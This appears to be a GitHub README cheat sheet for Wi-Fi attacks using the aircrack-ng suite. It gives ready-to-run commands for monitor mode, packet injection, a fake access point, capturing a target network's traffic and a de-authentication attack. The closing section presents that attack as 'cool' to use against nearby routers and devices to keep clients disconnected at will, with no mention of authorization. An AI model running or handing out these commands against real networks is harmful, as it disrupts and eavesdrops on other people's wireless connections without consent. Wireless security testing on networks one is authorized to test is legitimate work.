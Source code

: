 # <p style="text-align:center">Ethical Hacking Cheat Sheet </p>
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
{ Monitor Mode, packet injection } mode Here my network interface name is { wlan1 }, use these commands 

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

---
## Network Manager Commands
### Kill Network Manager
```
airmon-ng check kill
```
### Enable Network Manager
```
service NetworkManager start
```
### Restart Network Manager
```
systemctl restart NetworkManager
```
### Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
### Enable Monitor Mode
```
airmon-ng start wlan1
```
### Disable Monitor Mode
```
airmon-ng stop wlan1
```
### Packet Injection test
```
aireplay-ng --test wlan1
```
### Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
## Packet Sniffing
<details>
    <summary>What is Packet Sniffing ?</summary>
Packet sniffing is like secretly listening to conversations on the internet to see what information is being sent between computers.
</details>

### Sniff Network around `2.4 GHz`
```
airodump-ng wlan1
```
### Sniff Network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### Capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### Capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### Open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
## DE-Authentication Attack 
<details>
    <summary>why de-authentication attack ?</summary>
it`s cool and amazing attack on your nearest routers  & devices, it uses { aireplay } package and takes MAC address of Router & Client and keep sending deauthentication packet to Router & Client as well, you can send really large no. of packets and keep client disconnect as you want.
</details>

```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client

&nbsp;

if it`s fails then, target router on specfic channel
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number



# ===}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)